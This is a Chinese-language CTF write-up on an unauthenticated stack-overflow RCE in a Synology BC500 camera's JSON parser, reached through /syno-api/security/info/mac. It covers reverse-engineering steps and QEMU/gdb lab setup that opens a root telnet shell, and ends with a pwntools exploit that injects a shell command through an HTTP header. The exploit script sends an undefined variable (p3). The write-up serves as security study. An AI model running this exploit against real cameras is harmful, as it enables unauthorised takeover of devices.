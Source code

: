 RWCTF群晖 BC500摄像头RCE--未授权+栈溢出
----------------------------

此漏洞是来自于一场Real Word CTF比赛真实环境下看到的，这里拿来复现一下，此溢出点要想溢出到返回地址是不可能的，这里介绍下劫持结构体，在结构体里控制执行流，漏洞点在libjansson.so.4.7.0里的parse\_object，在json解析key造成了栈溢出，通过构造能够达到远程rce，调用链子如下：

parse\_object-&gt;parse\_value-&gt;json\_loads，而json\_loads最终调用，我们来分析下，由于是CVE，具体编号不知道，所以这里直接找到漏洞位置 /lib/libjansson.so.4.7.0，我们进行逆向分析下，这里去符号表了，如果硬逆很难，但由于libjansson.so.4.7.0是开源项目，我们直接去github上去找下源码，结合起来分析，源码位置<https://github.com/akheron/jansson>，我们结合起来分析

由于ida去符号表了，所以我们使用定位关键字符串来找到位置NUL byte in object

然后就可以看到了漏洞位置

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722131232463-3210b7e4-058a-4771-a645-aec69c712d58.png)

这里是由\_isoc99\_sscanf 进行的一个栈溢出，在解析key的时候对v9和v10造成了栈溢出，但这里调试是无法覆盖返回地址的，因为它会把key和value给覆盖掉，导致程序不能正常运行，所以这里结合源码分析，这里用vscode进行分析，把ida没有识别的函数给重命名下

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722131449239-c476ef5e-4f1b-45f0-a859-54eda63a27f5.png)

通过源码，在ida重新命名了下

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722131670924-b8901731-d445-4d31-9a2b-4b32e8c19c84.png)

这里没法覆盖返回地址，那我们就去看下有没有可用的结构体，发现下面有个lex\_scan函数，这里我们结合源码去看下，看看有没有可以用到的条件，发现在load.c里 在初始化各个函数的时候，前面已经把结构体定义好了，这样我们溢出的时候直接算好偏移溢出到对应结构体即可，我们看下这个结构体

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722131953449-d5907dae-60d8-4ddf-9a57-19e4d0c2c5ea.png)

这里发现是lex\_scan的结构体，那么我们可以劫持stream\_t的get\_func get 函数指针为我们的恶意地址，这样就可以控制执行流，那这时候就有个疑问，那怎么可以知道劫持执行流了呢，我们看看都什么地方调用了stream-&gt;get

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722132230061-c0f57a44-cd63-42ea-b64b-27e79c4e6aa1.png)

在stream\_get处调用了，然后继续查看stream\_get 在什么位置进行调用

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722132308042-5e4527bb-3709-4478-baf5-c34d35a6f9a7.png)

lex\_get lex\_get\_save都在调用，接着我们去看下在什么位置调用这两个函数

我们发现在lex\_scan\_string处调用了，lex\_scan\_string最终也会被lex\_scan\_string调用

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722132551155-d13f4f91-d9bc-4482-bb3e-283f9c45684b.png)

在lex\_scan处直接调用了lex\_get，但这里需要满足条件才可以去执行

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722132619799-c334b886-2551-44ca-a3d2-f9a73e1e04e1.png)

不过最终都会执行对应stream-&gt;get 来达到控制执行流的目的，整体分析下来已经知道了漏洞位置以及如何利用，下面我们就要看看什么地方可控可以来达到最终的利用，这里我们就来验证上面我们所说的链子，如何一步一步验证出来是这样调用的，我们用ida 交叉引用看到在sub\_6EF4 也就是parse\_value调用

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722133052013-2805d596-4c0e-42a8-9359-9ab96862d970.png)

我们继续看下parse\_value在什么位置调用，通过搜索在parse\_json有调用，接着看下parse\_json在什么位置调用

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722133452118-63691cc1-0c9d-4ae4-af41-01a7b6d5629a.png)

parse\_json在json\_loads位置调用，那什么地方调用了json\_loads，这个时候就需要回到题目文件系统里了

，grep -r “json\_loads"

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722133595005-deeefe7c-94e1-4ab2-923d-00e251ee07db.png)

发现有很多binary 在调用，这里我们选择webd，因为它是个摄像头处理的主要文件webserver

我们ida逆向下，呜呜这里又去符号表了，真的难受啊呜呜只能硬逆了，不知道为啥我看看雪佬的文章都是没有去除的，这里我用ida都去除 了，只能自己重命名了，呜呜呜难受，这里首先找下handle\_main处理函数

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722134031493-7f51ced6-742e-4091-82ce-90d7af667aec.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722134059750-68feb518-faf1-48b1-86b1-ff7cca6347c7.png)

发现有个api接口，接口对应处理的是sub\_35CEC, 这个函数主要处理后端不同的cgi请求处理，由于我们不知道前端账号密码，我们需要找到未授权，逆向下

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722134301762-1dd0c8bc-4f41-426e-a5d1-218be350917d.png)

发现没有执行路由会执行到/www/camera-cgi/synocam\_param.cgi这个cgi，那我们就去扫描下目录，去看看有什么可以未授权的访问路径，这里用dirsearch，通过扫描发现/syno-api/security/info/mac可以调用

下面我们接着去分析下这个cgi，在start里找到了处理路由函数

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722135059893-91f6afe7-10b3-4bd0-8a36-909582f8d23d.png)

在post里，发现传入的数据直接进到了sub\_11624

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722135122166-acc7360d-7a2b-4133-830d-3a8c3560db66.png)

sub\_11624 直接调用了json\_loads

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722135151199-8e596767-cc0c-424b-bbf8-e3fdbbabfc05.png)

最后的最后我们整体逆向和漏洞挖掘已经找到思路和利用手法，接下来我们就需要写脚本去执行调试就行了

这里写下环境搭建，题目会给个run.sh，我们改下run.sh

```php
#!/bin/sh  
qemu-system-arm \\  
    \-m 1024 \\  
    \-M virt,highmem\=off \\  
    \-kernel zImage \\  
        \-initrd player.cpio \\  
    \-nic user,hostfwd\=tcp:0.0.0.0:8801-:80,hostfwd\=tcp:0.0.0.0:8802-:8802,hostfwd\=tcp:0.0.0.0:1234-:1234 \\  
    \-nographic  
~                        
```

映射80为本地8801 然后telnet为8802 gdb调试为1234

我们需要开启下里面 的telnet，这里直接在/etc/init.d/rcS,更改如下

```php
#!/bin/sh  
\# source profile\_prjcfg on /etc/init.d/rcS (init script cycle) and /etc/profile (after startup cycle)  
source /etc/profile\_prjcfg  
telnetd \-p 9901 \-l /bin/sh  
​  
\# fstab devices create  
​  
mount \-a  
​  
echo "ker" &gt; /proc/nvt\_info/bootts  
echo "rcS" &gt; /proc/nvt\_info/bootts  
​  
\# To run /etc/init.d/S\* script  
​  
for initscript in /etc/init.d/S\[0-9\]\[0-9\]\*  
do  
    if \[ \-x $initscript \]; then  
        echo "\[Start\] $initscript"  
        $initscript  
    fi  
done  
​  
echo "rcS" &gt; /proc/nvt\_info/bootts  
telnetd \-p 8802 \-l /bin/sh
```

如何我们要调试的话，把对应版本gdbserver 放到目录下，然后再打包find . | cpio -o --format=newc &gt; ../player.cpio，就可以了

下步就是run.sh，然后gdb-multiarch webd

用telnet localhost 8802连接

ps 查看进程名

gdbserver :1234 --attach 进程号

接着执行如下命令

```php
target remote :1234  
set follow-fork-mode parent  
catch fork  
c  
set follow-fork-mode child  
catch exec  
c
```

我们通过父进程创建子进程的方式去调试

执行完上面的步骤，并没有完全进到cgi里，这里vmmap查看cgi的基地址加上0x7464，下个断点，c下，这样就能完整加载出来libjansson了，最后我们直接把断点下到 parse\_object 的scanf栈溢出位置

b \*基地址+0x6BC4,然后继续C就可以调了，由于没有符号表硬调，发现stream-&gt;get在0xa4左右位置，那么就可以直接填冲到这个位置就行了，这里选着一个好用的gadget，劫持get为这个地址，这里地址需要\\uxxx\\uxxx\\uxxx这样写，不然的话会报错

![img](https://cdn.nlark.com/yuque/0/2024/png/22994699/1722136049018-a7ea969e-d27d-42a6-94d7-522d1f80ccf5.png)

配合通过'$HTTP\_A' 在下面定义个A：cat /flag &gt; /www/index.html里 ，即可rce

完整的exp：

```python
from pwn import *
context(arch='arm', os='linux', log_level='debug')
ip = '127.0.0.1'
port = 8801
r = remote(ip, port)
shell = b'$HTTP_A'
shell = shell.ljust(8, b';')

payload = b'a ' + b'b' * (0x60 + 0x24 - 8) + shell + b'\u005c\u004d\u0041'
json = b'{"' + payload + b'": ""}'
pay = b''
pay += b'POST /syno-api/security/info/mac HTTP/1.1' +  b'\r\n'
pay += (b"Content-Length: %d" % len(json)) + b'\r\n'
pay += b'A: cat /flag &gt; /www/index.html' + b'\r\n'
pay += b'Accept: text/plain, */*; q=0.01' + b'\r\n'
pay += b'Content-Type: application/json' + b'\r\n'
pay += b'\r\n'
pay += json
r.send(p3)

r.interactive()
```

总结：通过这个题能学到很多实战上的技巧，感觉这些技巧大部分都可以通用，逆向的时候是累了点，但逆明白了还是很开心的，另我担忧的是如果实战没有开源项目，都是去符号表真的会G呜呜，只能通过gdb硬调了，没办法呜呜，继续加油吧，未来多复现这样的题或者CVE，累复现了两天呜呜